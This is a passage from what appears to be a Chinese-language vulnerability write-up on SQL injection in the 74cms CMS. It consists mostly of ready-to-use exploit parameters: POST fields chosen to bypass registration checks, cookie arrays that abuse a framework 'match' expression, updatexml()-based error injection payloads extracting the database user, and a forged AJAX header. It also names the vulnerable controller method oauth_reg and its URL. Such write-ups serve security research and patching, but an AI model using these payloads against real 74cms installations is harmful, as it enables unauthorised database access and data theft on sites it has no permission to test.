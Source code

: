 ![image](../img/bccf1bd2fc6286ba15383f8d39ae8cad.png)

```
这里我要大概讲一下参数的问题
post: 
reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
  unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

cookie:

members_uc_info[reg_type]=1;         // 必须为1 满足流程需要

members_uc_info[utype]=2;         // 必须为2 满足流程需要

members_uc_info[mobile][0]=match;    // 框架漏洞利用

members_uc_info[mobile][1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a;  // 这里输入注入语句 `headers:  // 伪造ajax操作

Content-Type: application/x-www-form-urlencoded

X-Requested-With: XMLHttpRequest` 
```

## 0x07 74cms独有框架漏洞第四处

```
文件：74cms\upload\Application\Home\Controller\MembersController.class.php
方法：oauth_reg (
是否需登录：需要
登录权限：普通用户/企业用户都可
url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
post:
    username = 自己去平台随便注册个账号然后输入那个账号
    password = 自己去平台随便注册个账号然后输入那个密码
cookie:
    members_bind_info[type][0]=match;
members_bind_info[type][1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a; 
```
